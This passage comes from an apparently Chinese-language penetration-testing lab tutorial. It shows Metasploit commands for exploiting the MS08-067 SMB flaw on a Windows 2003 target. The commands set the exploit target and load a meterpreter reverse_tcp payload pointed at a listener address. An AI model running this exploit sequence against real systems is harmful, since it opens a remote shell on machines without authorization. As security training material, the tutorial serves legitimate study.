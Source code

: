 # 设置target
msf5 exploit(windows/smb/ms08_067_netapi) > set target 3
# 显示选项
msf5 exploit(windows/smb/ms08_067_netapi) > show options
```

<img src="images/lab_exploitwin2k3/metasploitable03.png" width="480" alt="metasploitable03" />


9.执行下列命令，加载攻击载荷。
```
# 设置windows/meterpreter/reverse_tcp为攻击载荷
msf5 exploit(windows/smb/ms08_067_netapi) > set payload windows/meterpreter/reverse_tcp

# 设置载荷参数lhost
msf5 exploit(windows/smb/ms08_067_netapi) > set lhost 10.10.10.133

# 查看参数
msf5 exploit(windows/smb/ms08_067_netapi) > show options

```

<img src="images/lab_exploitwin2k3/metasploitable04.png" width="480" alt="metasploitable04" />

